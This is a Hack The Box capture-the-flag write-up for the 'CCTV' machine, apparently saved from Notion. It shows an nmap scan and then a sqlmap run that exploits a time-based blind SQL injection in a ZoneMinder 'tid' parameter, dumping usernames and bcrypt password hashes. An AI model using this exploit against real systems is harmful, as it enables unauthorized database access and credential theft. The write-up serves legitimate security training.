


Hack The Box بيئة تدريبية مصرح بها
CCTV HTB Machine
توثيق تقني محفوظ من المصدر الأصلي في Notion، يشمل الخطوات والأوامر والنتائج ولقطات الشاشة المتاحة.
العودة إلى تقارير CTF┌──(kali㉿kali)-[~/Downloads]
└─$ sudo nmap -sV -sC -Pn 10.129.50.173
[sudo] password for kali:
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-08 17:12 +0300
Nmap scan report for 10.129.50.173
Host is up (0.096s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|_ 256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
80/tcp open http Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://cctv.htb/
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.79 seconds
┌──(kali㉿kali)-[~/Downloads]
└─$
┌──(kali㉿kali)-[~/Downloads]
└─$ echo '10.129.50.173 cctv.htb' |sudo tee -a /etc/hosts
10.129.50.173 cctv.htb


┌──(kali㉿kali)-[~/Downloads]
└─$ sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" \
-D zm -T Users -C Username,Password --dump --batch \
--dbms=MySQL --technique=T \
--cookie="ZMSESSID=iapklkkpdtihs4usubfk0ameo9" \
--time-sec=2
___
__H__
___ ___[)]_____ ___ ___ {1.9.5#stable}
|_ -| . [.] | .'| . |
|___|_ [']_|_|_|__,| _|
|_|V... |_| https://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 17:33:34 /2026-05-09/
[17:33:34] [INFO] testing connection to the target URL
[17:33:35] [WARNING] heuristic (basic) test shows that GET parameter 'view' might not be injectable
[17:33:35] [INFO] testing for SQL injection on GET parameter 'view'
[17:33:35] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:33:35] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)
[17:33:44] [WARNING] GET parameter 'view' does not seem to be injectable
[17:33:44] [WARNING] heuristic (basic) test shows that GET parameter 'request' might not be injectable
[17:33:44] [INFO] testing for SQL injection on GET parameter 'request'
[17:33:44] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:33:45] [WARNING] GET parameter 'request' does not seem to be injectable
[17:33:46] [WARNING] heuristic (basic) test shows that GET parameter 'action' might not be injectable
[17:33:46] [INFO] testing for SQL injection on GET parameter 'action'
[17:33:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:33:47] [WARNING] GET parameter 'action' does not seem to be injectable
[17:33:47] [WARNING] heuristic (basic) test shows that GET parameter 'tid' might not be injectable
[17:33:48] [INFO] testing for SQL injection on GET parameter 'tid'
[17:33:48] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:33:53] [INFO] GET parameter 'tid' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[17:33:53] [INFO] checking if the injection point on GET parameter 'tid' is a false positive
GET parameter 'tid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 61 HTTP(s) requests:
---
Parameter: tid (GET)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: view=request&request=event&action=removetag&tid=1 AND (SELECT 4841 FROM (SELECT(SLEEP(2)))tkZz)
---
[17:34:02] [INFO] the back-end DBMS is MySQL
[17:34:02] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[17:34:03] [INFO] fetching entries of column(s) 'Password,Username' for table 'Users' in database 'zm'
[17:34:03] [INFO] fetching number of column(s) 'Password,Username' entries for table 'Users' in database 'zm'
[17:34:03] [INFO] retrieved: 3
[17:34:11] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
$2y$10$cmy
[17:35:50] [ERROR] invalid character detected. retrying..
tVWFRn
[17:36:54] [ERROR] invalid character detected. retrying..
t1XfqsItsJR^X@sgVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm
[17:43:16] [INFO] retrieved: superadmin
[17:44:32] [INFO] retrieved: $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.
[17:53:51] [INFO] retrieved: mark
[17:54:20] [INFO] retrieved: $2y$10$t
[17:55:40] [ERROR] invalid character detected. retrying..
5z8uIT.n9uCdHCNidcLf.39T
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
1y
Ui9nrlCkdXrzJMnJgkT
[18:02:46] [ERROR] invalid character detected. retrying..
iAvRUM6m
[18:04:00] [INFO] retrieved: admin
Database: zm
Table: Users
[3 entries]
+------------+--------------------------------------------------------------+
| Username | Password |
+------------+--------------------------------------------------------------+
| superadmin | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |
| mark | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
| admin | $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m |
+------------+--------------------------------------------------------------+
[18:04:37] [INFO] table 'zm.Users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/cctv.htb/dump/zm/Users.csv'
[18:04:37] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1690 times
[18:04:37] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cctv.htb'
[18:04:37] [WARNING] your sqlmap version is outdated
[*] ending @ 18:04:37 /2026-05-09/
┌──(kali㉿kali)-[~/Downloads]